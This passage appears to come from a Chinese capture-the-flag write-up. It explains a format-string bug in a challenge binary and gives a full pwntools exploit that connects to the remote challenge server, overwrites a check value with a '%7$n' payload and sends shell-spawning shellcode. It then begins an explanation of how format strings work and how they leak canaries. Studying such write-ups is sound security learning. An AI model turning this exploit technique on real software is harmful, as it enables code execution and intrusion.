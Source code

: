 但是到漏洞的输入点出需要\*a1 == a1\[1]，也就是v4\[0] == v4\[1]],而一开始我们在main函数里看到

```c
  *v4 = 68;
  v4[1] = 85;
```

那么我们知道第一个格式化漏洞应该利用来修改二者的值让其相等，并且v4\[0]和v4\[1]地址已知，那么基本的思路就都有了。

完整exp，具体解法都写在注释里了

```python
from pwn import *
#p= process("./string")
p = remote('61.147.171.105',51646)
context(arch='amd64')
#这一句为了后面生成的是64位的shellcode

p.recvuntil("secret[0] is ")
v40_addr = int(p.recvuntil('\n'), 16)
p.recvuntil("secret[1] is ")
v41_addr = int(p.recvuntil('\n'), 16)
#接收到了v4[0] v4[1]的地址，利用格式化字符串漏洞可以把v4[0]改为85或者把v4[1]改成68
#这里用后者

p.sendlineafter("What should your character's name be:","hacker_n")
p.sendlineafter("So, where you will go?east or up?:","east")
p.sendlineafter("go into there(1), or leave(0)?:","1")

p.sendlineafter("'Give me an address'",str(int(v41_addr)))
#将v41_addr存放在了v2里


payload1='a'*68+'%7$n'
#这里+%7$n是因为我们将v41_addr存放在了v2里，而v2经过偏移计算是在栈中的第七个参数
#计算方法就是在程序运行时通过多次printf不断打印%p泄露内存的地址 从而看到偏移量
#这里再码一遍求偏移 学习参考文章：
#	https://blog.csdn.net/weixin_48066554/article/details/113747784
p.sendlineafter("And, you wish is:",payload1)

payload2=asm(shellcraft.sh())
p.sendlineafter("Wizard: I will help you! USE YOU SPELL",payload2)
p.interactive()
```



#### 格式化字符漏洞泄露canary

**格式化字符串漏洞原理**

在进入 printf 之后，函数首先获取第一个参数，一个一个读取其字符会遇到两种情况

* 当前字符不是 %，直接输出到相应标准输出。
* 当前字符是 %， 继续读取下一个字符
  * 如果没有字符，报错
  * 如果下一个字符是 %, 输出 %
  * 否则根据相应的字符，获取相应的参数，对其进行解析并输出
